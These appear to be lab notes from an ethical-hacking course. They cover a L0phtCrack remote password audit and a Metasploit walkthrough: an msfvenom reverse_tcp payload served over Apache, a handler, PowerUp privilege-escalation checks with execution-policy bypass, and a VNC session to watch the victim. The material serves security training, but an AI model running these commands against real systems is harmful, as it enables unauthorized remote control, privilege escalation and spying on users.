 1. Install and run L0phtCrack
2. When it opens, select the Password Auditing Wizard
3. Select the Windows button
4. Select the remote machine button
5. Enter the IP address of the target machine, the username, and the password
6. Choose the thorough password audit
7. Select the generate report at end of auditing button and store the file in a good location
8. Run the job immediately and view the results


## Task 3: Exploit Client-Side Vulnerabilities and Establish a VNC Session
Attackers use client-side vulnerabilities to gain access to the target machine. VNC (Virtual Network Computing) enables an attacker to remotely access and control the targeted computers using another computer or mobile device from anywhere in the world. At the same time, VNC is also used by network administrators and organizations throughout every industry sector for a range of different scenarios and uses, including providing IT desktop support to colleagues and friends and accessing systems and services on the move.

This lab demonstrates the exploitation procedure enforced on a weakly patched Windows 10 machine that allows you to gain remote access to it through a remote desktop connection.

Here, we will see how attackers can exploit vulnerabilities in target systems to establish unauthorized VNC sessions using Metasploit and remotely control these targets.

1. Open the Parrot Security machine
2. Open MATE terminal
3. Type `sudo su` to switch to a root user and enter the password to log in
4. `cd` into the root directory
5. Type `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<host IP> LPORT=444 -o /root/Desktop/Test.exe`
6. This will generate Test.exe, a malicious file, in the root desktop folder
7. Type `mkdir /var/www/html/share` to create a shared folder
8. Type `chmod -R 755 /var/www/html/share` to change the permissions of that folder
9. `chown -R www-data:www-data /var/www/html/share
10. Copy the malicious file to the shared folder with `cp /root/Desktop/Test.exe /var/www/html/share`
11. Start Apache with `service apache2 start`
12. Type `msfconsole` to launch the metasploit framework
13. Type `use exploit/multi/handler`
14. Type `set payload windows/meterpreter/reverse_tcp` to select the payload
15. Type `set LHOST 10.10.10.13`
16. Type `set LPORT 444`
17. Type `exploit` to start the exploit
18. Switch back to the Windows machine
19. Open a web browser and go to `https://10.10.10.13/share`
20. Click on the `test.exe` file to download it
21. Save the file, run it, and ignore the warnings
22. Return to the Parrot Security machine
23. Observe that a meterpreter shell has been opened
24. If the shell hasn't been opened, type `sessions -i 1`
25. Type `sysinfo` to verify that you are in the target
26. Type `upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1` to upload the powersploit file to the target system's present directory
27. Type `shell` to open a shell session
28. Type `powershell -ExecutionPolicy Bypass - Command "..\PowerUp.ps1;Invoke-AllChecks` to run PowerUp.ps1
29. View the results, then type `exit` to return
30. Type `run vnc` to exploit VNC vulnerability to gain remote access
31. This will open a VNC session for the target machine, which can be used to see the victim's activities on the system
